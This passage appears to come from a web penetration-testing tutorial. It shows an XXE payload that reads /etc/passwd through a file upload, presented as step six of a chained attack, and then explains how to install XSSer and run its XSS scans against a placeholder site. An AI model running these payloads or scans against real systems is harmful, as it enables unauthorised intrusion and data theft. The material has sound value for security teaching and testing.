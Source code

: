 6. **Data Exfiltration via XXE**:
   ```bash
   # Create an XML file with XXE payload
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [
     <!ELEMENT foo ANY >
     <!ENTITY xxe SYSTEM "file:///etc/passwd" >
   ]>
   <foo>&xxe;</foo>
   
   # Upload the file using the file upload functionality
   ```

This example demonstrates how multiple vulnerabilities can be chained together in a real-world scenario to progressively gain higher levels of access, moving from unauthenticated user to admin with the ability to exfiltrate sensitive data.

## XSSer: Cross-Site Scripting Framework

Cross-Site Scripting (XSS) remains one of the most common web application vulnerabilities, allowing attackers to inject malicious scripts into webpages viewed by other users. XSSer is an automated framework for detecting, exploiting, and reporting XSS vulnerabilities.

### Installation

XSSer comes pre-installed on Kali Linux and Parrot OS, but you can ensure you have the latest version:

```bash
# Update system
apt update

# Install XSSer if not already installed
apt install xsser -y

# Alternatively, clone from GitHub
git clone https://github.com/epsylon/xsser.git
cd xsser
```

### Basic Usage

The simplest form of XSSer usage targets a specific URL:

```bash
xsser -u "http://vulnerable-site.com/page.php?param=test"
```

### Detection Techniques

XSSer employs various techniques to identify XSS vulnerabilities:

#### DOM XSS Detection

```bash
xsser -u "http://vulnerable-site.com/page.php?param=test" --dom
```
